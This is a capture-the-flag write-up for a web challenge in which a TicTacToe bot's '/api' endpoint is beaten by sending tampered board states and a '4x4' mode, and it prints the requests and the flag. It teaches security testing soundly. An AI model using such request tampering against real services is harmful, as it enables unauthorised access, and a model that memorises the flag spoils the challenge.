


## tictactoe  



We are given a web UI where we have to beat a TicTacToe bot to get the flag.  



In the HTML source, we can find the client-side script that handles the game, which reveals that the server makes requests to `/api` to fetch the bot's moves.  

The response data may also contain a `flag` field, which is most likely revealed when we trigger the win condition.  

Besides the `board` field, the request data also has a `mode` field that specifies the board dimensions. This will come in handy later.  

```js
const cells = document.querySelectorAll('.cell');
const status = document.getElementById('status');
let board = Array(3).fill().map(() => Array(3).fill(0));
let active = true;

cells.forEach(cell => {
    cell.addEventListener('click', async () => {
        const idx = parseInt(cell.dataset.index);
        const r = Math.floor(idx / 3);
        const col = idx % 3;

        if (board[r][col] !== 0 || !active) return;

        board[r][col] = 1;
        cell.innerText = "X";
        cell.style.color = "#00ff41";

        active = false;
        await syncWithCore();
    });
});

async function syncWithCore() {
    status.innerText = "AI ANALYSING...";
    try {
        const response = await fetch('/api', {
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({ mode: "3x3", state: board })
        });

        const data = await response.json();
        status.innerText = data.message;

        if (data.ai_move !== undefined && data.ai_move !== -1) {
            const r = Math.floor(data.ai_move / 3);
            const c = data.ai_move % 3;
            board[r][c] = -1;
            const aiCell = document.querySelector(`[data-index="${data.ai_move}"]`);
            aiCell.innerText = "O";
            aiCell.style.color = "#ff3333";
        }

        if (data.flag) {
            status.innerHTML = `<span style="color:#fff; text-shadow:0 0 10px #00ff41">${data.flag}</span>`;
            return;
        }

        if (data.gameOver || data.cheat) {
            active = false;
            setTimeout(resetGame, 3000);
        } else {
            active = true;
        }
    } catch (e) {
        status.innerText = "CONNECTION_LOST: Core offline.";
    }
}

function resetGame() {
    board = Array(3).fill().map(() => Array(3).fill(0));
    cells.forEach(c => c.innerText = "");
    status.innerText = "Awaiting biometric handshake...";
    active = true;
}
```

Our first instinct would be to cheat by sending a pre-filled board in a win stage, but the server doesn't output the flag yet.  

However, the debug message is pretty helpful, and hints that we have to tamper with the board dimensions somehow.  

```python
res = requests.post(f'{url}/api', json={
    'mode': '3x3',
    'state': [
        [1, 1, 1],
        [0, 0, 0],
        [0, 0, 0]
    ]
})

# {'message': "AI: Oh, you forced an 'X' into my memory? Cute. But the flag only releases for a valid dimensional shift.", 'cheat': True}
```

If we change the board dimensions to `4x4`, we realise that the server does indeed allow it.  

The debug message about "ghost sectors" also hints that the bot has some blind spots. This means the server is still running the `3x3` game logic on the `4x4` board, which means we can potentially score a line outside of the `3x3` space.  

```python
res = requests.post(f'{url}/api', json={
    'mode': '4x4',
    'state': [
        [0, 0, 0, 0],
        [0, 0, 0, 0],
        [0, 0, 0, 0],
        [0, 0, 0, 0]
    ]
})

# {'message': '4x4_MODE_ACTIVE: AI sensors blind in ghost sectors.'}
```

We can exploit the bot's "blind spots" and win the game in the 4th column of the board, giving us the flag.  

```python
res = requests.post(f'{url}/api', json={
    'mode': '4x4',
    'state': [
        [0, 0, 0, 1],
        [0, 0, 0, 1],
        [0, 0, 0, 1],
        [0, 0, 0, 0]
    ]
})

# {'message': "AI: Protocol bypassed... You didn't just play the game; you rewrote the rules. Respect.", 'flag': 'EH4X{D1M3NS1ONAL_GHOST_1N_TH3_SH3LL}'}
```

Flag: `EH4X{D1M3NS1ONAL_GHOST_1N_TH3_SH3LL}`